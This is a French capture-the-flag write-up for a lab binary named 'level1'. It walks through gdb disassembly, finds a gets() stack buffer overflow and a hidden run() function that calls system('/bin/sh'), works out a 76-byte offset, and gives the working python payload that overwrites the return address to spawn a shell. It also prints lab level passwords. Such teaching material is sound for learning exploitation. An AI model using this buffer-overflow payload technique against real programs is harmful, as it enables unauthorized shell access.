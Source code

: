 On se connecte sur le level1, ou se trouve un **binaire** <code>level1</code>.

On cherche a savoir ce que fait ce binaire:
```gdb
> gdb level1 -q
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) > disas main
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
```

En regardant les fonctions utlisées, on trouve :

```gdb
(gdb) > info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```

On trouve 2 fonctions qui ne sont pas utlisées, **frame_dummy** et **run** :

```gdb
(gdb) disas frame_dummy
Dump of assembler code for function frame_dummy:
   0x08048420 <+0>:     push   %ebp
   0x08048421 <+1>:     mov    %esp,%ebp
   0x08048423 <+3>:     sub    $0x18,%esp
   0x08048426 <+6>:     mov    0x80496bc,%eax
   0x0804842b <+11>:    test   %eax,%eax
   0x0804842d <+13>:    je     0x8048441 <frame_dummy+33>
   0x0804842f <+15>:    mov    $0x0,%eax
   0x08048434 <+20>:    test   %eax,%eax
   0x08048436 <+22>:    je     0x8048441 <frame_dummy+33>
   0x08048438 <+24>:    movl   $0x80496bc,(%esp)
   0x0804843f <+31>:    call   *%eax
   0x08048441 <+33>:    leave
   0x08048442 <+34>:    ret
   0x08048443 <+35>:    nop
End of assembler dump.
```
> On voit que cette fonction ne sert pas a grand chose.
```
(gdb) > disas run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x80497c0,%eax
   0x0804844f <+11>:    mov    %eax,%edx
   0x08048451 <+13>:    mov    $0x8048570,%eax
   0x08048456 <+18>:    mov    %edx,0xc(%esp)
   0x0804845a <+22>:    movl   $0x13,0x8(%esp)
   0x08048462 <+30>:    movl   $0x1,0x4(%esp)
   0x0804846a <+38>:    mov    %eax,(%esp)
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:    movl   $0x8048584,(%esp)
   0x08048479 <+53>:    call   0x8048360 <system@plt>
   0x0804847e <+58>:    leave
   0x0804847f <+59>:    ret
End of assembler dump.
```
> Ici on observe l'appelle de la commande **system** avec comme argument 0x8048584:
```gdb
x/s 0x8048584
0x8048584:       "/bin/sh"
```

On sait que l'on va devoir utliser la fonction **run** qui fait un **system("/bin/sh")**. Pour cela nous allons effectuer un buffer **overflow**.
```gdb
> gdb level1 -q
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) > b *0x08048490 # Breakpoint juste avant l'appelle de gets
Breakpoint 1 at 0x8048490
(gdb) > run
Starting program: /home/user/level1/level1

Breakpoint 1, 0x08048490 in main ()
(gdb) > i f
Stack level 0, frame at 0xbffff740:
 eip = 0x8048490 in main; saved eip 0xb7e454d3
 Arglist at 0xbffff738, args:
 Locals at 0xbffff738, Previous frame's sp is 0xbffff740
 Saved registers:
  ebp at 0xbffff738, eip at 0xbffff73c
(gdb) > x/30x $esp
0xbffff6e0:     0xbffff6f0      0x0000002f      0xbffff73c      0xb7fd0ff4
0xbffff6f0:     0x080484a0      0x0804978c      0x00000001      0x08048321
0xbffff700:     0xb7fd13e4      0x00080000      0x0804978c      0x080484c1
0xbffff710:     0xffffffff      0xb7e5edc6      0xb7fd0ff4      0xb7e5ee55
0xbffff720:     0xb7fed280      0x00000000      0x080484a9      0xb7fd0ff4
0xbffff730:     0x080484a0      0x00000000      0x00000000      0xb7e454d3
0xbffff740:     0x00000001      0xbffff7d4      0xbffff7dc      0xb7fdc858
0xbffff750:     0x00000000      0xbffff71c
```
> 0xbffff73c => EIP
>
> 0xbffff6f0 => Buffer beginning
>
> 0xbffff73c - 0xbffff6f0 = 0x4c
>
> 0x4c = Offset : 76 characters

<pre><code>python -c "print '/x90' * 76 + '\x44\x84\x04\x08'" | ./level1
Good... Wait what?
</code></pre>
> \x44\x84\x04\x08 => 0x08048444, adresse de la fonction **run**

On se rend compte que nous ne restons pas dans le shell une fois le programme fini, donc on utlise la commande **cat** pour laisser ouvert ce dernier :

<pre><code>> (python -c "print '/x90' * 76 + '\x44\x84\x04\x08'"; cat) | ./level1
Good... Wait what?
> cd ../level2 && cat .pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
</code></pre>

For download :
<pre><code>scp -P4242 level1@192.168.1.78:level1 .</code></pre>
> Password : 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a

# Explication bonus
Pour savoir quel taille est atriuber le char* utilisé dans **get** on calcule avec :
```gdb
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
```
> 0x50 - 0x10 = 0x40 = 64

Donc on a => <code>char* str[64];</code>

